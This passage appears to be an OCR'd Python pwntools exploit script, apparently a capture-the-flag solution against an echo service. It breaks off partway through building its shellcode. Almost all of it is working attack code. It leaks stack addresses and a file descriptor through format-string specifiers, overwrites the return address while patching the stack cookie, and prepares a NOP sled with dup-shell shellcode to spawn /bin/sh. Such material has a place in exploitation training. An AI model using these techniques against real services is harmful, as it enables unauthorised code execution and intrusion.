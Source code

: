 ```python

def get_shellcode_location():
    # Shellcode is stored in arg 6 (then +a few bytes to land on the nopsled)
    shellcode_start = "0x%6$08x" # shellcode_start + 6 

    # Leak buffer pointer
    r.send(shellcode_start)
    rec = r.recvuntil("Type string to echo back: ")

    # Trim out the location and calculate offset to start of shellcode
    #
    #  "E|c|h|o|:| |" + SHELLCODE
    #  \____________/
    #        \- 12 bytes before our shellcode starts
    #
    shellcode = int(rec[6:16],16) + 12

    # Convert to the right endianness
    shellcode_str = struct.pack("<L", shellcode)

    print "[+] Shellcode Location: %s" % hex(shellcode)
    return shellcode_str

def get_current_file_descriptor():
    # This caused me massive headache. GDB mucks with FDs so none of my shellcode was working in GDB :(
    fd_location = "0x%32$08x" # shellcode_start + 6 
    r.send(fd_location)
    rec = r.recvuntil("Type string to echo back: ")

    file_descriptor = int(rec[6:16],16)
    print "[+] File descriptor: 0x%02d" % file_descriptor
    return chr(file_descriptor)

def clobber_ret_and_cookie(stack_cookie, shellcode_location, FD):    
    junk = "\xff" * 28
    payload = "%122x" + stack_cookie.replace("\x00",'\xFF') + junk + shellcode_location + FD
    r.send(payload)
    rec = r.recvuntil("Type string to echo back: ")

    print "[+] Clobbering RET pointer and partially restoring stack cookie"
    return rec

def fix_stack_cookie():
    r.send("%122x")
    rec = r.recvuntil("Type string to echo back: ")

    print "[+] Fixing stack cookie"
    return rec

def write_shellcode():
    # Man shellcraft is *awesome*. A pinch of nopsled for good measure.
    shellcode = asm(shellcraft.nop()) * 10 

    # Editied shellcraft.dupsh()
    #  * When our shellcode is executed, our current FD is sitting on the top of the stack, 
    #    so we just pop it off (since it's not in any register) and dup that. We could also 
    #    specify 4/8 depending on if we're running through GDB or not (it messes with file 
    #    descriptors :( )
    #
    #  * The "n" in /bin/sh will cause it to go down a different codepath, so I had to XOR mask it
    #    to ensure that 
    # 
```
